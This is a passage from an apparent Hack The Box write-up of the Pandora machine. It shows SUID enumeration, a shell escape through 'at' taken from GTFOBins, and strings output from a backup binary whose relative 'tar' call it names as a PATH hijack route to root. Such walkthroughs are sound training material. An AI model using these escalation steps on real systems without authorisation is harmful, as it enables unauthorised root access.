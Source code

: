 ```console
$ find / -perm -4000 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/at
/usr/bin/fusermount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
$ 
```
Two binaries stand out. The first is [at](https://gtfobins.github.io/gtfobins/at/#shell), which we can use to break out of restricted environments. The second is `/usr/bin/pandora_backup`{: .filepath}. After using `at`, we can take a further look at the backup binary. 

```console
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
matt@pandora:/$ echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
<(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
warning: commands will be executed using /bin/sh
job 3 at Sun Jun 26 19:00:00 2022
/bin/sh: 0: can't access tty; job control turned off
$ id
id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
$
```
Running `strings` on the binary reveals that it is using the relative and not the absolute path, which means we can perform path highjacking to gain root. 

```console
┌──(bitis㉿workstation)-[~/htb/Machines/Pandora]
└─$ strings pandora_backup          
/lib64/ld-linux-x86-64.so.2
puts
setreuid
system
getuid
geteuid
__cxa_finalize
__libc_start_main
libc.so.6
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
Backup failed!
```
